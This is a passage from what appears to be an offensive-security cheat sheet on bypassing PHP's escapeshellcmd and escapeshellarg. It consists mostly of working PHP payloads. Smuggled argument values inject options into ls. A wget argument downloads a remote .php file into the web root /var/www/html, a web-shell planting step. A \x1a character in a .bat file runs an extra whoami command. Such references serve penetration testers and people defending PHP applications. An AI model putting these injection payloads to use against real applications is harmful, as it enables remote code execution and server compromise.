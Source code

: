 In this configuration we can pass second argument to the function.

List files inside `/tmp` dir and ignore `sth`.

```php
$arg = "sth";
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```

List files inside `/tmp` dir and ignore `sth`. Use a long listing format.

```php
$arg = "sth' -l ";
// ls --ignore='exploit'\\'' -l \' /tmp
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```


## WGET

Download `example.php`.

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

Save `.php` file to specific directory:

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

## [Command executed using .bat](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

Print list of files inside `somedir`.

```php
$dir = "somedir";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

Also execute `whoami` command.

```php
$dir = "somedir \x1a whoami";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

See: [how passing parameters to a new process on Windows](http://daviddeley.com/autohotkey/parameters/parameters.htm#WINPASS).

## [SENDMAIL](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)
